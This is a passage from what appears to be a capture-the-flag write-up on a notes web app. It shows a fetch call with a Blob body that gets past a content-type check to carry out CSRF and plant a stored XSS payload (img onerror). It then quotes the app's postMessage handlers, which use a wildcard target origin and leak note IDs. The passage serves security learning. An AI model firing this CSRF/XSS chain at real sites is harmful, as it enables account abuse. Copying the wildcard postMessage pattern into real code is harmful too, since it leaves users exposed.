 The application was checking whether a ```content-type``` header was present, and if it was, its value had to be ```application/json```. I remembered the ```Blob``` trick for bypassing this check to perform CSRF. If I sent the request using the Fetch API and included ```Blob``` data in the body, the browser wouldn’t automatically send the ```content-type``` header. Without this header, the condition in the code would never be triggered, effectively bypassing the restriction. I tested this approach in my browser—and it worked.

```js
fetch(url + "/api/post", {
  method: "POST",
  credentials: "include",
  mode: "no-cors",
  body: new Blob([
    {"title":"test","content":["<img src=x onerror=alert(1) />"],"use_password":"false"}
  ]),
});
```
Now, I had an XSS vulnerability, but to execute it, I first needed to open the note. The challenge was that the note ID was a UUID, making it difficult to guess. I was stuck here for a while, so I explored the application and revisited the source code for any potential clues. That’s when I noticed the use of ```postMessage```.

When opening a protected note, the application launched a new popup window and sent a ```childLoaded``` event to the main window. The user was then prompted to enter the password in the main window, which was subsequently sent to the pop-up via ```postMessage```. The pop-up then attempted to locate a note with the exact password. If a matching note was found, its contents were displayed, and the note ID was sent back to the opener.
```js
useEffect(() => {
    if(window.opener){
    window.opener.postMessage({ type: "childLoaded" }, "*");
    }
    setisMounted(true);
    const handleMessage = (event) => {
        if (event.data.type === "submitPassword") {
            validatepassword(event.data.password);
        }
    };

    window.addEventListener("message", handleMessage);
    return () => window.removeEventListener("message", handleMessage);
}, []);

const validatepassword = (submittedpassword) => {
    const notes = JSON.parse(localStorage.getItem("notes") || "[]");
    const foundNote = notes.find(note => note.password === submittedpassword);

    if (foundNote) {
        window.opener.postMessage({ type: "success", noteId: foundNote.id }, "*");
        setIsSuccess(true);
    } else {
        window.opener.postMessage({ type: "error" }, "*");
        setIsSuccess(false);
    }
};
```
